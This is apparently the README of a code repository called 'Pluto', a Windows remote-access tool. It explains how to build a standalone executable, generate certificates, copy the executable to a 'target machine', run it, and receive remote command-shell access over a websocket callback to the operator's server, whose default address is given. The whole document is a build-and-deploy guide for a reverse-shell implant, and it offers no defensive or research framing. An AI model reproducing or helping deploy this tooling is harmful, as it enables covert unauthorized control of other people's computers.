 # Pluto

![pluto](/Images/pluto.png)

# Acknowledgement

First i would like to thank the All-Mighty God who is the source of all knowledge, without Him, this would not be possible.

## Introduction

This repository provides code to deploy an executable on a remote machine, execute it, and establish shell access via websocket communication.

## Features

- Self-Contained Python Executable
- Remote Command Execution via Windows CLI via

## Dependencies

- OpenSsl (you probably need to get gitbash for this)
- numpy
- PyQt6
- websockets
- backoff
- pyinstaller
- opencv-python


## Installation

## requirements.txt installation

Navigate to the src directory and install the requirements.txt

```
pip3 install -r requirments.txt
```
### Certificate generation

First ensure you have openssl installed on your windows box, the easiest way is to do this from a gitbash terminal

Run the `create_keys.py` script, you can pass your servers IP (the controlling machine) to the script via cli args like so:

```bash
python create_keys.py --ip 10.0.0.123
```

It will create the certificate.pem and private.key files in the pluto directory

### Create the executable

Navigate to the src directory and execute the following commands from there:

```bash
python3 cythonize_pluto.py
pyinstaller  --one-file --log-level=DEBUG pluto.spec
```
You can change the address of the server in the `src/pluto.py` by changing the default server address to your ip

```python
    parser.add_argument(
        "--server_address",
        default="wss://192.168.1.154:8765",
        help="WebSocket server address (default: wss://192.168.1.154:8765)",
    )
```

Or you can just invoke it with the args like so

```bash
 .\pluto_windows.exe --server_address wss://192.168.1.154:8765
```

The executable will be in the pluto_dist directory and it will be named `pluto_windows.exe`

### Deployment

Copy `pluto_windows.exe` to your target machine and execute it.


On your computer run the server

```bash
python3 websocket_server.py
```

You should see a "hello server message as seen in the screenshot below"

![pluto](/Images/server.png)

### Future developments

If you look in the src file, you would find a c# implementation and some other python files, those are for future development

## Contribution

Please feel free to open a pull request to contribute code to this repository

Happy Hacking